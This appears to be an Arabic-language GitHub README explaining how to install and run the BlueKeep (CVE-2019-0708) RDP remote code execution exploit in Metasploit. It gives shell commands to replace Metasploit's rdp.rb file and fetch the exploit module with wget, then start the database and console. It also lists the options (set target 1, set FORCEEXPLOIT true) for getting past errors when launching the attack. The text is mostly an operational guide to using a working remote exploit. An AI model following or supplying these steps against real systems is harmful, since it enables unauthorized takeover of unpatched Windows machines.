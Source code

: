 # bluekeep
CVE- 2019-0708 هذه هي ثغرة الارديبي الاخيرة رقمها 
للثغرة عدة مشاكل ولغاية لحظة بدء هذا المشروع لم يقوم رابد7 الى الان بوضعها في تحديثات الميتا سبلويت وهذا الاصدر فيها عدة مشاكل  
طريقة تنصيب بسيطة يجب ان تقوم بتحديث الميتا سبلويت الى اخر اصدار عن  طريق جميع هذه الاوامر
msfupdate
apt-get update
apt-get upgrade
ثم تنفيذ الاوامر الاتية 
cd cd /usr/share/metasploit-framework/lib/msf/core/exploit/
rm rdp.rb
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb
mkdir /usr/share/metasploit-framework/modules/exploits/windows/rdp/
cd /usr/share/metasploit-framework/modules/exploits/windows/rdp/
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
الان تم التنصيب يجب اعادة تشغيل قواعدالبيانات وتشغيل الميتا سبلويت لاستخدمها عن طريق الاوامر الاتية 
service postgresql start
msfdb init 
msfconsole
الان بعض الاوامر المهمة لدخول للثغرة واستخدامها
set target 1
set FORCEEXPLOIT true
هذه هي اهم الاوامر المهمة بعد الدخول للثغرة لتفادي بعض الاخطاء
